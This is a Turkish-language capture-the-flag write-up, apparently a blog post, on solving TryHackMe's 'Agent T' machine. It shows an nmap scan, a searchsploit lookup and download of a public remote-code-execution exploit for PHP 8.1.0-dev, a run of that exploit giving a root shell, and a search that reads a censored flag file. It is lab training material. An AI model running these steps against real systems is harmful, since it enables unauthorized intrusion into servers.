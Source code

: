 ```yaml
---
title: "Agent T Makine Çözümü"
date: "2025-03-22"
tags: ["ctf", "tryhackme"]
---
```


Merhabalar, bu yazımda sizlere TryHackMe platformunda bulunan "Agent T" isimli makinenin çözümü anlatacağım. Keyifli Okumalar...

1 - *Nmap* aracını kullanarak makine üzerindeki açık portlar ve servisler hakkında detaylı bilgi ediniyorum.

```shell
nmap -sS -sV 10.10.110.47
```

2 - Tarama sonucunda 80 numaralı portun açık olduğunu görüyorum. Daha sonra searchsploit aracı ille "php 8.1.0" bilgisini aratıyorum.

```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-04 18:37 +03
Nmap scan report for 10.10.110.47
Host is up (0.10s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
```

3 -  49933 id li exploiti indiriyorum.

```shell
> searchsploit "php 8.1.0"
*
*
*
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution | php/webapps/49933.py
*
*
> searchsploit -m 49933
```

4 - Exploiti çalıştırıyorum. Çalıştırdıktan sonra *root* kullanıcısı olduğumu görüyorum.

```shell
> python3 49933.py                                                                                                 
Enter the full host url:
http://10.10.110.47

Interactive shell is opened on http://10.10.110.47 
Can't acces tty; job crontol turned off.
$ whoami
root
```

5 - *find* komutu ile bayrak dosyasını arıyorum. Bayrak dosyasını bulduktan sonra *cat* komutu ile okuyorum.

```shell
> find / -type f -name "*flag*" 2>/dev/null
> cat /flag.txt
flag{CENSORED}
```